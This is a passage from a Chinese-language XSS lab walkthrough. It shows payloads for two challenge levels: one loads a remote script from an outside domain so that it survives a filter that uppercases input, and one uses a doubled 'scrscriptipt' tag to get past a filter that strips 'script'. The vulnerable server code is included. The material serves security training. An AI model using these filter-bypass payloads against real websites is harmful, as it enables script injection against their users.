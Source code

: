 



## 0x0B——利用域名的某文件【js文件】绕过自动把输入内容转为大写的过滤

```
<script src="http://...//A.js"></script>

<script src="http://sqlilabs.njhack.xyz/A.JS"></script>
```

js标签，src地址随便

但是js语法是大小写敏感的。

——但是浏览器【域名的加载】的大小写也无所谓。

![image-20220116115030681](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20XSS%E9%9D%B6%E5%9C%BA.assets/image-20220116115030681.pngg)

```
[html]
<h1><SCRIPT SRC="HTTP://SQLILABS.NJHACK.XYZ/A.JS"></SCRIPT></h1>

[server code]
function render (input) {
  input = input.toUpperCase()
  return `<h1>${input}</h1>`
}

```



## 0x0C——双写绕过script标签大写的过滤

```
<scrscriptipt src="http://sqlilabs.njhack.xyz/A.JS"></scrscriptipt>
```

![image-20220116115053113](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20XSS%E9%9D%B6%E5%9C%BA.assets/image-20220116115053113.png)
